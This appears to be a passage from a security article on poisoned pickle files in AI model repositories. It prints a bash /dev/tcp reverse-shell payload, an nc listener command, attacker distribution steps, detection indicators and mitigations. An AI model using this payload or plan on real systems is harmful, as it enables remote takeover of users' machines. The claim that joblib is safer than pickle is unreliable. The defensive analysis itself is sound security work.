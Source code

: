 This code **initiates a reverse shell** when unpickled, establishing a **TCP connection** to an attacker’s machine. This allows remote command execution on the victim’s system. If injected into an **AI model** and shared on public repositories, unsuspecting users could unknowingly **compromise their devices**.

#### How an Attacker Could Exploit This

1. Start a listener on their machine:
   ```bash
   nc -lvnp 9001
   ```
2. Distribute the malicious `.pkl` file via platforms like GitHub or Hugging Face.
3. Wait for a victim to load the model.
4. Obtain full remote access to the compromised machine.

⚠️ **Warning:** This demonstration is for **educational purposes only** and underscores the dangers of untrusted pickle files.

#### Disassembling the payload

- Look for unexpected imports (`subprocess`, `os`, `Popen`, `eval`, `exec`, `socket`, `shutil`, `ctypes`, `multiprocessing`).
- Check if `REDUCE`, `GLOBAL`, `NEWOBJ` call dangerous functions (e.g., `os.system`, `subprocess.Popen`, `eval`, `exec`).
- Watch for shell commands (`/bin/bash`, `sh`, `cmd.exe`, `powershell.exe`).
- Detect file system access (`open`, `os.remove`, `shutil.rmtree`, `os.chmod`, `os.unlink`).
- Monitor for network activity (`socket`, `requests.get`, `urllib.request.urlopen`).
- Watch for excessive memory usage (`bytearray(999999999)`, `b"\x00" * 999999999`).

For the above payload, these are the opcodes which indicate security risk

```yaml
154: \x8c SHORT_BINUNICODE 'subprocess'
167: \x8c SHORT_BINUNICODE 'Popen'
180: \x8c SHORT_BINUNICODE '/bin/bash'
192: \x8c SHORT_BINUNICODE '-c'
197: \x8c SHORT_BINUNICODE 'exec 5<>/dev/tcp/127.0.0.1/9001; cat <&5 | while read line; do $line 2>&5 >&5; done'
286: R REDUCE
```

## Mitigation - Strategy

#### Layer 1: Attack Mitigation

1. Prevent Poisoned Models & Untrusted Pickles
   - Never unpickle files from untrusted sources.
   - Use safer alternatives like **ONNX, SafeTensors, TorchScript, JSON or joblib (safer than pickle)**.
   - **Disassemble and inspect** pickle files using `pickletools.dis()`.
2. AI Firewalls & Screening Tools
3. Defensive Training Techniques
   - Distribute training across sub-models to reduce attack impact.
   - Automatic Patch Management
